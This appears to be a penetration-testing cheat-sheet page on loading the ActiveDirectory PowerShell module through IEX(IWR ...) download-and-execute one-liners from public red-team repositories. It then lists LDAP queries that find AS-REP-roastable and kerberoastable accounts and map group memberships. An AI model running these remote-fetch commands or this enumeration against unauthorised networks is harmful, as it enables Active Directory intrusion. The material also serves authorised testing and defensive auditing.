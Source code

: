 Install via ADModule:

- [https://github.com/samratashok/ADModule/blob/master/Import-ActiveDirectory.ps1](https://github.com/samratashok/ADModule/blob/master/Import-ActiveDirectory.ps1)
- [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/ADModuleImport.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/ADModuleImport.ps1)

```
PS > IEX(IWR "https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1" -UseBasicParsing)
PS > Import-ActiveDirectory
Or
PS > IEX(IWR "https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/ADModuleImport.ps1" -UseBasicParsing)
```

#### Example Queries

List disabled users (when searching for users [use](http://www.frickelsoft.net/blog/?p=147) `objectCategory` + `objectClass` filters):

```
PS > Get-ADObject -LDAPFilter '(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))' -Properties samAccountName | select samAccountName
```

Count users, groups and computers:

```
PS > (Get-ADObject -LDAPFilter '(&(objectCategory=person)(objectClass=user))' | measure).count
PS > (Get-ADObject -LDAPFilter '(&(objectCategory=computer)(objectClass=computer))' | measure).count
PS > (Get-ADObject -LDAPFilter '(&(objectCategory=group)(objectClass=group))' | measure).count
```

List users with `DoesNotRequirePreAuth` set (aka [asreproastable](/pentest/infrastructure/ad/kerberos/roasting.md#asreproasting)):

```
PS > Get-ADUser -Filter {DoesNotRequirePreAuth -eq "True"} -Properties DoesNotRequirePreAuth | select DoesNotRequirePreAuth,samAccountName | fl
```

List accounts with SPN(s) set (aka [kerberoastable](/pentest/infrastructure/ad/kerberos/roasting.md#kerberoasting)) and which are also in Protected Users group:

```
PS > Get-ADUser -Filter {memberOf -eq "CN=Protected Users,CN=Users,DC=MEGACORP,DC=LOCAL"} -Properties * | select samAccountName,servicePrincipalName,memberOf | fl
Or
PS > Get-ADGroupMember "Protected Users" | Get-ADUser -Properties * | ? {$_.servicePrincipalName -ne $null} | select samAccountName,servicePrincipalName,memberOf | fl
```

List all groups that **j.doe** is a member of:

```
PS > Get-ADPrincipalGroupMembership j.doe | select name
```
